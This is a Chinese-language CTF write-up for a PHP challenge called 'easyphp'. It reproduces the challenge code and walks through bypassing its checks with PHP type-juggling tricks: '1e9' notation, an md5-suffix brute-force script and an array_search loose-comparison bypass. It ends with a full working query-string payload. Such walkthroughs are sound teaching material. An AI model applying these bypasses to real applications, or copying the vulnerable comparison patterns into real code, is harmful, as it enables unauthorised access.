





题目描述：
easyphp
题目解题：
一道《简单的》PHP特性题
代码有点高深，对于菜鸡的我，有点审不过来，就能申的就申
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
| <?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
$a = $_GET['a'];
$b = $_GET['b'];
if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
$key1 = 1;
}else{
die("Emmm...再想想");
}
}else{
die("Emmm...");
}
$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
$d = array_search("DGGJ", $c["n"]);
$d === false?die("no..."):NULL;
foreach($c["n"] as $key=>$val){
$val==="DGGJ"?die("no......"):NULL;
}
$key2 = 1;
}else{
die("no hack");
}
}else{
die("no");
}
if($key1 && $key2){
include "Hgfks.php";
echo "You're right"."\n";
echo $flag;
}
?> Emmm...
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
| 1 根据第9行 if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3) 在变量a中写入整数值大于6000000且长度小于3的字符串。
2 根据第10行 if(isset($b) && '8b184b' === substr(md5($b),-6,6))
在变量b中写入末尾md5为'8b184b'的字符串，我在印象里有MD5碰撞专用的网站；
3 根据第20行 if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022)
在数组c的成员m中写入不是数字或数组字符串且值大于2022的
4 根据第21行 if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0]))
在数组c的成员n中写入元素值为2且c["n"][0])是数组的
5 根据第22行 $d = array_search("DGGJ", $c["n"]);
如果"DGGJ"与$c["n"]）的搜素结果匹配，且c["n"]不可以是"DGGJ"本身
6 根据第19行 $c=(array)json_decode(@$_GET['c']);
数组c除了上述要求外，还需要是JSON 编码。
|
第一个：查看官方文档发现1e10数字很大，但要求我们长度小于4，那我们试试1e9

很明显可以的，成功绕过
第二个：应该是md5碰撞，不过这里写脚本更合适，但太菜了，就看看大佬如何写的吧
1
2
3
4
5
6
7
8
9
10
| <?php
for($b=1;$b<=100000;$b++){
if(preg_match('/^8b184b/',substr(md5($b),-6,6))){
echo $b;
echo "\n";
echo md5($b);
echo "\n";
}
}
?>
|
代码也很简单（但我依旧想不到-.-）采用一个简单的正则表达式，如果匹配则输出b，我们运行一下看看

第三个：if(is_array($c) && !is_numeric(@$c[“m”]) && $c[“m”] > 2022)
首先我们知道c是一个数组，且有两个元素即c=array(‘m’,‘n’);
先套用JSON编码运行一遍，就是把c[“m”]='9001 '写成c={“m”:“9001a”}；这里注意双引号，因为根据官方教程，写单引号JSON是不正确的

第四个与第五个：if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0]))
$d = array_search("DGGJ", $c["n"]);
array_search绕过可以参考博文：CTF中常见的 PHP 弱类型漏洞总结 - 北极边界安全团队 - 博客园 (cnblogs.com)
示例代码如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| <?php
if(!is_array($_GET['test'])){exit();}
$test=$_GET['test'];
for($i=0;$i<count($test);$i++){
if($test[$i]==="admin"){
echo "error";
exit();
}
$test[$i]=intval($test[$i]);
}
if(array_search("admin",$test)===0){
echo "flag";
}
else{
echo "false";
}
?>
|
这段代码的意思就是先判断是不是数组，然后在把数组中的内容一个个进行遍历，所有内容都不能等于admin,类型也必须相同，然后转化成int型，然后再进行比较如果填入值与admin相同，则返回flag,如何绕过呢？
基本思路还是不变，因为用的是三个等于号，所以说“= =”号这个方法基本不能用，那就用第二条思路，利用函数接入到了不符合的类型返回“0”这个特性，直接绕过检测。所以payload：test[]=0。
因此这道题我们可以
我们直接为c[n0]赋予空值数组，保证可以通过is_array($c[“n”][0])的判定，c[n1]赋予空值，即c=[[],0];0的话，由于这里是强比较那么0肯定不等于false，便成功绕过
最终c赋值为c={"m":"9001 ","n":[[0],0]}
payload为：
1
| ?a=1e9&b=53724&c={"m":"9001 ","n":[[0],0]}
|

得到flag
参考文章：
wp参考